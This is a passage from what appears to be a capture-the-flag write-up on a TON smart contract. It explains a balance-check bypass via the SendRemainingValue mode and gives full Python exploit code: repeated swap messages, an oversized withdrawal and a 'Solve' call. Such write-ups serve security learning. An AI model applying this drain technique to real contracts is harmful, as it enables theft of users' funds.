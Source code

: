 Since the actual withdrawal used the **SendRemainingValue** mode, the contract would return any excess TON back to me, bypassing the balance check while still allowing me to withdraw funds.

### The Exploit

Here’s the code I used to perform the exploit:

```python
await wallet.transfer(CONTRACT, amount=0.15, body='CreateUser')
print(await client.get_last_transaction(CONTRACT))

async def swap_1(amount):
    builder = begin_cell().store_uint(0x40e869ea, 32).store_coins(amount).store_uint(0x1, 257)
    cell = builder.end_cell()
    await wallet.transfer(CONTRACT, amount=0.15, body=cell)
    print(await client.get_last_transaction(CONTRACT))

async def swap_2(amount):
    builder = begin_cell().store_uint(0x40e869ea, 32).store_coins(amount).store_uint(0x2, 257)
    cell = builder.end_cell()
    await wallet.transfer(CONTRACT, amount=0.15, body=cell)
    print(await client.get_last_transaction(CONTRACT))

# Perform the swaps
await swap_1(3)
await swap_2(1)
await swap_2(2)

await swap_1(2)
await swap_2(1)
await swap_2(1)

await swap_1(2)
await swap_2(1)
await swap_2(2)

await swap_1(1)
await swap_2(1)
await swap_2(1)

await swap_1(1)
await swap_2(1)
await swap_2(1)

await swap_1(1)
await swap_2(1)
await swap_2(1)
await swap_2(1)

await swap_1(1)
await swap_2(1)
await swap_2(1)

await swap_1(1)

# Perform withdrawal with the required amount
builder = begin_cell().store_uint(0xa4a52dd3, 32).store_coins(5212062305)
cell = builder.end_cell()
await wallet.transfer(CONTRACT, amount=2, body=cell)
print(await client.get_last_transaction(CONTRACT))

# Call Solve method
await wallet.transfer(CONTRACT, amount=0.1, body='Solve')
print(await client.get_last_transaction(CONTRACT))
```